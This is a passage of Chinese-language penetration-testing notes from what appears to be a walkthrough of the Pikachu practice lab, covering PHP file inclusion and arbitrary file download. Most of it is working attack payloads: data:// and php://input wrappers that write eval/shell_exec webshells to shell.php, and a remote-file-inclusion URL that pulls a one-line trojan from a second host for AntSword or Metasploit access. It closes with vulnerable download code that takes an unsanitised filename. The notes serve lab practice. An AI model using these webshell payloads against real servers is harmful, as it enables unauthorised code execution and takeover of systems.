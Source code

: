 `data%3a//text/plain,<%3fphp+fputs(fopen('shell.php','w'),'<%3fphp+$var%3dshell_exec($_GET["cmd"])%3b+echo+$var+%3f>')%3b%3f>`

或者写入一句话木马,报错就url编码

```php
data://text/plain,<?php fputs(fopen('shell.php','w'),'<?php eval($_POST["cmd"]);?>');?>
```

* php://input

![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220630223426-7wlwgit.png)

![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220630223518-kdt435n.png)

或者写webshell

```php
<?php fputs(fopen('shell.php','w'),'<?php eval($_POST["cmd"]);?>');?>
```

![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220630223836-0aw0jvq.png)

或者也可以这么写

```php
<?php
$file = fopen("shell.php","w");
$text = '<?php eval($_POST["cmd"]);?>';
fwrite($file,$text);
fclose($file);
?>
```

* 远程文件包含

在远程服务器新建shell.txt，写入一句话木马,启动web服务

```php
<?php eval($_POST["cmd"]);?>
```

蚁剑直接连

```php
http://192.168.1.7:8000/vul/fileinclude/fi_remote.php?filename=http://192.168.1.7:8080/shell.txt&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```

![image.png](C:\Users\Lenovo\AppData\Local\Temp\Temp1_皮卡丘.zip\皮卡丘\WEB\靶机笔记\assets\image-20220630225354-m1o4gkb.png)

可执行任何php代码，上线msf也可以


# 任意文件下载

部分代码

```php
<?php


$PIKA_ROOT_DIR =  "../../";

include_once $PIKA_ROOT_DIR."inc/function.php";

header("Content-type:text/html;charset=utf-8");
// $file_name="cookie.jpg";
$file_path="download/{$_GET['filename']}";
//用以解决中文不能显示出来的问题
$file_path=iconv("utf-8","gb2312",$file_path);
```